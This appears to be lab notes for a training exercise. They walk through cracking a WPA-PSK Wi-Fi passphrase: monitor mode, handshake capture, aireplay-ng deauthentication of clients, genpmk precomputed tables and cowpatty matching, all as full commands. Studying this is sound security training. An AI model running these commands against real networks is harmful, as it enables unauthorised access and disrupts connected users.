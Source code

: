 # Chain #16: Precomputation (Rainbow Table) Attack

## Goal & Scope

Use precomputed PMKs (genpmk) to accelerate WPA‑PSK cracking against a known SSID by:

- Generating SSID‑specific PMK tables.
- Matching captured 4‑way handshakes against precomputed tables with cowpatty.
- Understanding trade‑offs: speed vs storage/target specificity.

---

## Concept (Short)

WPA‑PSK derives a PMK from the passphrase and SSID with PBKDF2. genpmk precomputes PMKs for many candidate passphrases _for a specific SSID_, producing a lookup file. cowpatty can match a captured 4‑way handshake to that precomputed table much faster than re‑deriving PBKDF2 for every candidate.

**When to use:**

- Target SSID is known and fixed (e.g., corporate SSID used by many APs).
- You will repeatedly test the same SSID (amortize generation cost).

**When not ideal:**

- You need to attack many different SSIDs (table per SSID → expensive).
- Storage or time to precompute is limited.

---

## Step 1 — Put Interface in Monitor Mode

Prepare wireless card for capture:

```bash
sudo airmon-ng start wlan0
```

- `airmon-ng` enables monitor mode (creates wlan0mon).
- If processes interfere, run `airmon-ng check kill`.

---

## Step 2 — Capture Handshake with airodump-ng

Scan and save capture (replace channel and ESSID accordingly):

```bash
airodump-ng wlan0mon -c 1 -w WPA --essid HackTheBox
```

- `-c 1`: lock to channel 1.
- `-w WPA`: write captures with prefix `WPA`.
- Watch `WPA-01.cap` for the `WPA handshake:` marker.

Force a reauthentication (optional) to trigger handshake:

```bash
aireplay-ng -0 5 -a <BSSID> -c <STATION> wlan0mon
```

- `-0 5`: send 5 deauths.
- `-a`: AP MAC (BSSID).
- `-c`: client MAC to direct deauth.

---

## Step 3 — Precompute PMKs with genpmk

Create the SSID‑specific PMK table from a wordlist:

```bash
genpmk -f /opt/rockyou.txt -d /tmp/hashtable -s HackTheBox
```

Flags explained:

- `-f /opt/rockyou.txt`: source wordlist of candidate passphrases.
- `-d /tmp/hashtable`: destination file to store precomputed PMKs.
- `-s HackTheBox`: SSID to tie the PMK generation to.

Notes:

- Generation is CPU/GPU intensive and can be long for large lists.
- Limit generation (e.g., 30k keys) to avoid huge storage in lab environments.

---

## Step 4 — Crack Using cowpatty Against Precomputed Table

Once you have a capture (`WPA-01.cap`) and `hashtable`, run cowpatty:

```bash
cowpatty -d /tmp/hashtable -r WPA-01.cap -s HackTheBox
```

Flags explained:

- `-d /tmp/hashtable`: use precomputed PMK file.
- `-r WPA-01.cap`: the capture file with 4‑way handshake.
- `-s HackTheBox`: the SSID (must match table).

If matched, cowpatty outputs the recovered PSK quickly because it avoids costly PBKDF2 recalculation.

---

## Step 5 — Example Full Flow (Quick)

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
airodump-ng wlan0mon -c 1 -w WPA --essid HackTheBox
# optionally: aireplay-ng -0 5 -a <BSSID> -c <CLIENT> wlan0mon
# generate table (on powerful/parallel host)
genpmk -f /opt/rockyou.txt -d /tmp/hashtable -s HackTheBox
# match handshake
cowpatty -d /tmp/hashtable -r WPA-01.cap -s HackTheBox
```

---

## Trade‑offs & Practical Notes

- **SSID specificity:** Each table only works for the SSID used during generation. If AP uses different SSID, regenerate.
- **Storage:** Large wordlists → very large hash tables. Plan disk space.
- **Time:** Generating tables is time‑consuming; only worth it when amortized over many handshakes for same SSID.
- **Alternatives:** Hashcat with hcxpcapngtool → use GPU for fast cracking without precomputing, more flexible across SSIDs.

---

## Checklist

-  Put interface into monitor mode.
-  Capture handshake (airodump-ng; deauth if needed).
-  Run genpmk with chosen wordlist and SSID.
-  Use cowpatty to test capture against generated table.
-  If unsuccessful, expand wordlist or use Hashcat methods.